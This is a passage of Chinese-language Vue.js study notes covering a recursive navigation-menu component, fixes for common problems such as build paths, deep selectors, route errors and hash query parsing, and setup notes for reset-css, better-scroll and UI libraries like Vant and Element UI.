        { id:2,name:"山东",parentid:1 },
        { id:3,name:"河北",parentid:1 },
        { id:4,name:"河南",parentid:1 },
        { id:5,name:"济南", parentid:2 },
        { id:6,name:"青岛",parentid:2 },
        { id:7,name:"烟台",parentid:2 },
        { id:8,name:"石家庄",parentid:3 },
        { id:9,name:"唐山",parentid:3 },
        { id:10,name:"历下区",parentid:5 },
        { id:11,name:"市中区",parentid:5 },
        { id:12,name:"天桥区",parentid:5 }
        ]
      }
    },
    methods:{
      getNav(pid=1){
        var str="";
  
        this.navList.forEach(item=>{
          if(item.id==pid){
            str+=`<div class="title">${item.name}</div>
              	<ul class="layer1"> `
          }
          if(item.parentid==pid){
            str+=`
              <li>${item.name}
                <ul class="layer2">${this.getSubNav(item.id)}</ul>
              </li>`
          }
        })
        this.navEle=str
      },
  
      getSubNav(id,sub=0){
        var str="";
        sub++      
        this.navList.forEach(item=>{
          if(item.parentid==id){
            str+=`
              <li>
              	${item.name}
              	<ul class="subnav${sub}">${this.getSubNav(item.id,sub)}</ul>
              </li>`
          }
        })
        return str;
      }
    },
    mounted(){
      this.getNav()
    }
  }
  </script>
  ```

  


### 常见问题


#### vue中使用jsx语法，封装showMsg

```vue

```


#### 打包后资源路径问题：

> 默认可以直接放在服务器根目录，但如果放在子集目录下资源请求可能会存在问题
>
> - vite创建的vue项目	参看[构建生产版本 | Vite 官方文档 ](https://cn.vitejs.dev/guide/build.html#public-base-path)
> - vue-cli创建的项目：

```js
// vue cli创建的项目， 在项目根目录新建 vue.config.js

module.exports = {
    publicPath: '/html/front',    // 放置index.html的服务器路径
}


```


#### 深度选择器

> 引⽤第三⽅组件，如果需要在组件中局部修改第三⽅组件的样式，⽽⼜不想去除scoped属性造成组件之间的样式污染，可以⽤>>>的⽅式穿透scoped；
>
> 原理：vue打包时会对样式名等进行重新编码，这里注明后可避免被重新编码命名

- `>>>`只作用于css、sass/lesss 中可能无法识别_需要使用`/deep/ `选择器
- vue3中 使用 `:deep()`替代 `/deep/`

```vue
<!-- 
   深度作用选择器 >>>   
   可用于选中UI组件底层内部的标签内容，
   默认只能控制到最外层，除非移除scoped
-->
<style scoped>
   .fuck >>> .weui-cells {
		...
	}
</style>
<!--  sass/lesss 可能无法识别，需要使用 /deep/ 选择器 -->
<style lang="scss" scoped>
.select {
  width: 100px;

  /deep/ .el-input__inner {
    border: 0;
    color: #000;
  }
}
</style>
```


#### 路由重复点击报错

- vue-router  的官方错误

- 解决方案：

  1. 对  vue-router 进行降级处理（不推荐）`npm i vue-router@3.0.7`

  2. 在路由操作时捕获异常，但不处理异常

     ```js
     this.$router.replace({
         name: "Guang",
     }).catch(()=>{});
     ```

  3. 直接修改原型方法 进行改造（推荐）

     ```js
     //  例：改造 push方法
     // 将以下代码直接粘贴到 router/index.js 中的 Vue.use(VueRouter)之前
     const originalPush = VueRouter.prototype.push;
     VueRouter.prototype.push = function(location){
        return originalPush.call(this,location).catch(()=>{});
     }
     
     const originalReplace = VueRouter.prototype.replace;
     VueRouter.prototype.replace = function(location){
        return originalReplace.call(this,location).catch(()=>{});
     }
     ```


#### 不常见的语法错误：

1. v-if 中不能使用 `?.` 运算符，否则项目运行报错

   


#### 无法获取location.serach

- **使用了hash导致**，因为hash会将url中第一个#后的内容都作为hash内容，所以search为空了.

- 解决办法

  - ```js
    var search = window.location.hash.split("?")[1]; 
    console.log(search)     // id=1&time=2021-11-23
    ```

    

#### 路由传参_空白页

路由传参，当用户使用浏览器的前进后退按钮，可能导致界面空白

- 错误的解决方案
  - 使用 `<keep-alive>` 指定路由缓存（复用的组件，选择不同内容时，无法重新获取数据）
  - 使用replace 替换路由，用户无法回退（体验极差）
- 解决思路
  1. 使用**路由守卫**，拦截路由回退，当从详情页跳转到其他非详情页面时并且是回退按钮，删除当前详情页面的历史记录
     - 路由守卫是否可以 检测到浏览器的前进回退按钮
     - 路由拦截到之后，**如何删除当前页面的历史记录？**
  2. 监测组件的激活与失活（每个页面都要加，即使是结合mixin也比较麻烦）
     - 在失活时保存当前数据的id
     - 激活时判断当前id 与之前保存的id 是否一致
       - 不一致就重新获取数据
  3. 动态路径，使用路由缓存
     - 将对应详情页的唯一标识放在url路径中，不同路径就会发起新的请求
  4. 不使用路由传参，借助sessionstroage临时保存参数


## 其他


### reset-css

> reset-css 是一种样式清除模块，清除默认样式  替代  *{margin:0,padding:0}等工作

- 安装 yarn add reset-css

- ```js
  // 在main.js入口文件中 引入 
  import 'reset-css'
  ```


### [better-scroll](https://gitee.com/mirrors/better-scroll/)

> BetterScroll 是一款重点解决移动端各种滚动场景需求的开源插件，适用于滚动列表、选择器、轮播图、索引列表、开屏引导等应用场景。

- 盒子要求
  - 外小 内大   使用溢出隐藏  `overflow:hidden;`

```js
// 两种安装选择
npm install better-scroll -S  # 安装带有所有插件的 BetterScroll
npm install @better-scroll/core # 核心滚动，大部分情况可能只需要一个简单的滚动
// 两种引入使用
import BetterScroll from 'better-scroll'
let bs = new BetterScroll('.wrapper', {
  movable: true,
  zoom: true
})

import BScroll from '@better-scroll/core'
let bs = new BScroll('.wrapper', {})
```


### vue-devtools

> vue控制台工具，可以直接打开组件指定的文件




### UI 框架

#### [Antd](https://1x.antdv.com/docs/vue/introduce-cn/)

- 如何实现slot-scope传参的

  ```html
  <!-- 获取文本数据使用text，当前行数据record，索引index  -->
  <template slot="hsRoundsName" slot-scope="text, record">
          <a class="btn entrance" @click="handleSee(record)" :title="text">{{ text }</a>
  </template>
  ```

  

#### [Vant UI](https://vant-contrib.gitee.io/vant/v2/#/zh-CN/home)

- Vue 2 项目，安装 Vant 2： npm i vant@latest-v2 -S

- 下载插件，实现自动按需引入

  - \# 安装插件 npm i babel-plugin-import -D

  ```js
  // 对于使用 babel7 的用户，可以在 babel.config.js 中配置
  module.exports = {
    plugins: [
      ['import', {
        libraryName: 'vant',
        libraryDirectory: 'es',
        style: true
      }, 'vant']
    ]
  };
  
  // 接着你可以在代码中直接引入 Vant 组件
  // 插件会自动将代码转化为按需引入形式
  import { Button,... } from 'vant';
  ```

  

- 对需要使用的UI组件进行统一管理

  - 在src文件夹下新建VantUI文件夹，增加index.js文件

  ```js
  // 统一管理使用的VantUI组件 使用什么就将组件在这里引入
  import Vue from 'vue';
  import { Button } from 'vant';
  import "vant/lib/button/style";
  Vue.use(Button);
  ....
  ```

  - 在入口文件main.js引入该文件 实现全局可用`import './VantUI/index.js'`

- 其他内容依据官方文档使用即可


#### [Element UI](https://element.eleme.cn/#/zh-CN)

- ```js
  // 下载 element-ui
  yarn add element-ui -S
  // 下载 babel-plugin-component 进行按需引入
  npm install babel-plugin-component -D
  // 在 .babel  或 babel.config.js 中添加如下内容
  {
    "presets": [["es2015", { "modules": false }]],
    "plugins": [
      [
        "component",
        {
          "libraryName": "element-ui",
          "styleLibraryName": "theme-chalk"
        }
      ]
    ]
  }
  
  // 在main.js入口文件中 引入配置。。。。。
  // 详细查看 VantUI的引入
  ........
  ```

  


#### [cube-ui](https://didi.github.io/cube-ui/#/zh-CN)

- 按需引入与vantui用法一致


